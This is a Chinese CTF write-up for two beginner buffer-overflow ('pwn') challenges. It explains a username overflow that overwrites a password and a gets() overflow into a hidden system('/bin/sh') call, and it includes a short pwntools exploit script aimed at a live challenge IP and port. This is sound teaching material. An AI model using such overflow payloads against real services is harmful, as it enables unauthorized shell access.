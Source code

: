 ## PWN-EasyOverflow1

![image-20220509193607393](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509193607393.png)



`给了个nc ip:port;`

nc连接后发现要求输入username，多次尝试输入发现规律，

username只读取前9位字符

![image-20220509193805827](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509193805827.png)

结合题意overflow可联想，超过9位的剩余字符在其他地方发挥了作用

尝试后可知，username处输入的10-18位成为了新的密码

![image-20220509194211988](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509194211988.png)

输入密码即可获得flag



担心同学想不到溢出，也留了个预设密码 password 让大家猜



## PWN-EasyOverflow2

![image-20220509194333125](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509194333125.png)

首先nc连接发现要题目要求我们输入一个数字，尝试输入无果

![image-20220509194716789](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509194716789.png)

打开附件

先用checksec 分析一下该文件

![image-20220509194500596](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509194500596.png)

发现基本保护全关

使用IDA打开该文件

![](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509195125937.png)

发现逆向出来的代码如上图

发现漏洞点 system（“/bin/sh”）

观察代码发现溢出点 gets()函数,并且在number处需要填入11.28125

![image-20220509195401457](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509195401457.png)

11.28125（double）用0x4026900000000000表示

计算溢出量0x1A-0x8

![image-20220509195721267](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509195721267.png)

编写脚本

```python
from pwn import * 
#连接
r = remote("81.69.243.226",30012)
#构造输入
payload = b'a'*18+p64(0x4026900000000000)

r.sendline(payload)
r.interactive()
```

运行脚本得到权限，找到flag

![image-20220509200018457](C:\Users\a1775\AppData\Roaming\Typora\typora-user-images\image-20220509200018457.png)





